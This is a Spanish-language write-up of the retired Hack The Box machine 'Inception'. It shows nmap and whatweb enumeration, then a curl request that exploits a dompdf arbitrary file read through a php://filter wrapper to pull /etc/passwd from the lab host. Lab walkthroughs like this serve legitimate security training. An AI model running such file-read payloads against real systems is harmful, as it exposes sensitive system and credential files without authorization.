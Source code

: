 ```yaml
---
layout: post
title:  "Maquina Retirada Inception de Hack The Box (Necesario VIP)"
categories: "HTB"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada INCEPTION
tags: HTB, dompdf, Remote File Read, squidproxy, webdav, CronTabs, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Inception ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
# nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.10.10.67
```
Realizamos el segundo escaneo para averiguar la version y servicios en los puerto abiertos
```bash
# nmap -sC -sV -p80,3128 -Pn -n -v 10.10.10.67

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inception
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

Procedemos a enumerar el servicio `http` con la herramienta `whatweb`
```bash
# whatweb http://10.10.10.67                                                                                                                                                     
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
Procedemos a hechar un ojo a la pagina web y al codigo fuente de la misma.
```bash
curl -s -X GET "http://10.10.10.67/"
<!-- Todo: test dompdf on php 7.x -->
```
Encontramos al final de codigo fuente algo sobre `DOMPDF`
Investigamos a nivel google que es DOMPDF:   `DOMPDF es un conversor de HTML a PDF escrito en PHP`
Buscamos Exploits Github para DOMPDF:   Encontramos este exploit de Arbitrary File Read en github-- `https://github.com/defarbs/dompdf-exploit`
```bash
curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd"
```
